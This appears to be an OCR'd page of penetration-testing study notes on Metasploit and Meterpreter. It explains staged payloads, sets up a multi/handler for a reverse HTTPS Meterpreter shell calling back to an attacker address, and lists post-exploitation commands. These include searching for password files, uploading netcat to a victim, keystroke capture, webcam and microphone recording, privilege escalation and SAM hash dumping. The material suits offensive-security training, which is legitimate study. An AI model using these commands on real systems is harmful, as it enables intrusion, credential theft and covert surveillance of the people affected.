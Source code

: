 -   Staged and Non-staged

    -   Non-staged payload - is a payload that is sent in its entirety
        in one go

    -   Staged - sent in two parts  
        Not have enough buffer space  
        Or need to bypass antivirus

-   Experimenting with Meterpreter

    -   Get system information from Meterpreter Shell  
        sysinfo

    -   Get user id from Meterpreter Shell  
        getuid

    -   Search for a file  
        search -f \*pass\*.txt

    -   Upload a file  
        upload /usr/share/windows-binaries/nc.exe c:\\\\Users\\\\Offsec

    -   Download a file  
        download c:\\\\Windows\\\\system32\\\\calc.exe /tmp/calc.exe

    -   Invoke a command shell from Meterpreter Shell  
        shell

    -   Exit the meterpreter shell  
        exit

-   Metasploit Exploit Multi Handler

    -   multi/handler to accept an incoming reverse\_https\_meterpreter
        payload  
        use exploit/multi/handler  
        set PAYLOAD windows/meterpreter/reverse\_https  
        set LHOST $ip  
        set LPORT 443  
        exploit  
        \[\*\] Started HTTPS reverse handler on https://$ip:443/

-   Building Your Own MSF Module

    -   mkdir -p ~/.msf4/modules/exploits/linux/misc  
        cd ~/.msf4/modules/exploits/linux/misc  
        cp
        /usr/share/metasploitframework/modules/exploits/linux/misc/gld\_postfix.rb
        ./crossfire.rb  
        nano crossfire.rb

-   Post Exploitation with Metasploit

    -   download Download a file or directory  
        upload Upload a file or directory  
        portfwd Forward a local port to a remote service  
        route View and modify the routing table  
        keyscan\_start Start capturing keystrokes  
        keyscan\_stop Stop capturing keystrokes  
        screenshot Grab a screenshot of the interactive desktop  
        record\_mic Record audio from the default microphone for X
        seconds  
        webcam\_snap Take a snapshot from the specified webcam  
        getsystem Attempt to elevate your privilege to that of local
        system.  
        hashdump Dumps the contents of the SAM database
